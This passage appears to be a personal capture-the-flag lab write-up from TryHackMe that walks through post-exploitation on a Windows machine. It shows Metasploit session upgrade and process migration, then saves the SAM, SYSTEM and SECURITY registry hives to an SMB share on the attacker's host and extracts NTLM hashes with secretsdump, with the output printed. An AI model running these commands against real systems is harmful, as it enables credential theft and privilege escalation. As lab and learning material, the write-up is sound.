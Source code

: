 
### Metasploit

```bash

# From shell to meterpreter
sessions -u $ID


# Migrate to x64 or spoolsvc.exe winlogon.exe or explorer.exe or to SYSTEM process
ps
migrate $PID
```


## Cracking
---


### Dump NTLM Hashes

> https://www.thehacker.recipes/ad/movement/credentials/dumping

For some reasons, I don't have the `SeBackupPrivilege` on SYSTEM to dump `sam` and `system` hive


#### Living Off the land


##### Dump Registry

> https://lolbas-project.github.io/#/credentials

Use method from [[#Psexec]] to get full privilege tokens

Host smb server

```bash
┌──(kali㉿kali)-[~/thm/smb]
└─$ smbserver.py s . -smb2support
```

After that, dump and transfer the `sam`, `system` and `security` hive (Security can be ignored since the machine did not join a domain)

```bash
reg save HKLM\SECURITY \\10.11.19.145\s\security.bak && reg save HKLM\SYSTEM \\10.11.19.145\s\system.bak && reg save HKLM\SAM \\10.11.19.145\s\sam.bak
```

Extract hashes with `secretsdump.py`

```bash
┌──(kali㉿kali)-[~/thm/smb]
└─$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.10.1.dev1+20230607.11222.cefe192 - Copyright 2022 Fortra

[*] Target system bootKey: 0x55bd17830e678f18a3110daf2c17d4c7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
[*] Cleaning up...
```
